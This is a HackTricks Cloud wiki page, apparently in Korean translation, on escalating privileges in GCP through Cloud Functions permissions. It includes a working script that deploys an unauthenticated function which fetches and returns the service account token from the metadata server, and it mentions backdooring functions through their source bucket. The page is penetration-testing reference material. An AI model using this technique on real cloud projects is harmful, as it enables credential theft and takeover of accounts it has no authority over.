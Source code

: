 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions에 대한 추가 정보:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **임의의 (악의적인) 코드를 가진 새로운 Cloud Function을 생성하고 이를 Service Account에 할당할 수 있습니다**. 그런 다음 메타데이터에서 Service Account 토큰을 유출하여 권한을 상승시킬 수 있습니다.\
함수를 트리거하기 위해 일부 권한이 필요할 수 있습니다.

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)와 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)에서 찾을 수 있으며, 미리 빌드된 .zip 파일은 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)에서 찾을 수 있습니다.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **Function의 코드를 수정하고 심지어 연결된 서비스 계정을 수정하여 토큰을 유출할 수 있습니다**.

{% hint style="danger" %}
Cloud functions를 배포하려면 기본 컴퓨트 서비스 계정 또는 이미지를 빌드하는 데 사용되는 서비스 계정에 대한 actAs 권한도 필요합니다.
{% endhint %}

버전 1 cloudfunctions에 대한 `.call` 권한이나 함수를 트리거하기 위한 `role/run.invoker` 역할과 같은 추가 권한이 필요할 수 있습니다.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
`Permission 'run.services.setIamPolicy' denied on resource...` 오류가 발생하는 경우, `--allow-unauthenticated` 매개변수를 사용하고 있으며 이에 대한 충분한 권한이 없기 때문입니다.
{% endhint %}

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py)에서 찾을 수 있습니다.

### `cloudfunctions.functions.sourceCodeSet`

이 권한을 사용하면 **함수 버킷에 파일을 업로드할 수 있는 서명된 URL을 얻을 수 있습니다(하지만 함수의 코드는 변경되지 않으며, 여전히 업데이트해야 합니다)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

공격자의 관점에서 이 권한이 얼마나 유용할지는 잘 모르겠지만, 알아두면 좋습니다.

### `cloudfunctions.functions.setIamPolicy`, `iam.serviceAccounts.actAs`

이전의 **`.update`** 또는 **`.create`** 권한 중 하나를 부여하여 권한 상승을 할 수 있습니다.

### `cloudfunctions.functions.update`

**`cloudfunctions`** 권한만 가지고 **`iam.serviceAccounts.actAs`** 권한이 없으면 함수를 업데이트할 수 없으므로, 이것은 유효한 권한 상승이 아닙니다.

### 버킷에 대한 읽기 및 쓰기 접근

버킷에 대한 읽기 및 쓰기 접근 권한이 있다면 코드의 변경 사항을 모니터링할 수 있으며, 버킷에서 **업데이트가 발생할 때마다 새로운 코드를 자신의 코드로 업데이트할 수 있습니다.** 그러면 제출된 백도어 코드로 새로운 버전의 Cloud Function이 실행됩니다.

공격에 대한 자세한 내용은 다음에서 확인할 수 있습니다:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

그러나, 이 방법을 사용하여 제3자의 Cloud Functions를 사전 침해할 수는 없습니다. 왜냐하면 자신의 계정에 버킷을 생성하고 외부 프로젝트가 그 위에 쓸 수 있도록 공개 권한을 부여하면 다음과 같은 오류가 발생하기 때문입니다:

<figure><img src="../../../.gitbook/assets/image (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
그러나, 이는 DoS 공격에 사용될 수 있습니다.
{% endhint %}

### 아티팩트 레지스트리에 대한 읽기 및 쓰기 접근

Cloud Function이 생성될 때 새로운 도커 이미지가 프로젝트의 아티팩트 레지스트리에 푸시됩니다. 새로운 이미지로 이미지를 수정하려고 시도했지만, 현재 이미지를 삭제하고 `cache` 이미지를 삭제해도 아무런 변화가 없었고, Cloud Function은 계속 작동했습니다. 따라서, 아마도 **버킷과 같은 경쟁 조건 공격을 악용할 수 있을지도 모릅니다**. 그러나 **저장된 이미지를 수정하는 것만으로는 Cloud Function을 침해할 수 없습니다.**

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나, **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
